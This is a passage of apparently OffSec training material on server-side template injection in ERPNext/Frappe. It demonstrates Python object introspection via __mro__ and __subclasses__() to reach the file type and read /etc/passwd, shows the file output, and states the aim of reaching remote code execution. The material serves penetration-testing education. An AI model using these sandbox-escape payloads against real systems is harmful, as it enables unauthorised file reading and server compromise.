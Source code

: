 ```
>>> dir(''.__class__.__mro__[1].__subclasses__()[40])
['__class__', '__contains__', '__delattr__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__iter__', '__le__', '__len__', '__lt__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'copy', 'get', 'items', 'keys', 'values']
```

> Listing 65 - List of attributes and methods of mappingproxy

However, if we use this payload in Python 2.7, the returned item in the 40th index is the _file_ type.

The returned _file_ is a type and not a class - this won't affect how we handle the returned item. Since Python 2.2, a unification of types to classes has been underway.[8](https://portal.offsec.com/courses/web-300-687/learning/erpnext-authentication-bypass-and-server-side-template-injection-10581/wrapping-up-10663/wrapping-up-10759#fn-local_id_269-8) In Python 3, types and classes are the same.

```
kali@kali:~$ python2.7
...
>>> ''.__class__.__mro__[2].__subclasses__()[40]
<type 'file'>

>>> dir(''.__class__.__mro__[2].__subclasses__()[40])
['__class__', '__delattr__', '__doc__', '__enter__', '__exit__', '__format__', '__getattribute__', '__hash__', '__init__', '__iter__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'close', 'closed', 'encoding', 'errors', 'fileno', 'flush', 'isatty', 'mode', 'name', 'newlines', 'next', 'read', 'readinto', 'readline', 'readlines', 'seek', 'softspace', 'tell', 'truncate', 'write', 'writelines', 'xreadlines']
```

> Listing 66 - 40th index of object class in python3

Essentially, the payload is using the _file_ type, passing in the file to be read (/etc/passwd), and running the _read_ method. In Python 2.7, we can read the /etc/passwd file.

```
>>> ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
'root:x:0:0:root:/root:/usr/bin/fish\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\n...\nkali:x:1000:1000:,,,:/home/kali:/bin/bash\n'
```

> Listing 67 - Reading /etc/passwd

We need to find the index of a function in Python 3 that will allow us to accomplish RCE. We'll save the search for that function while we develop a more holistic picture of what's being loaded by Frappe and ERPNext.

1
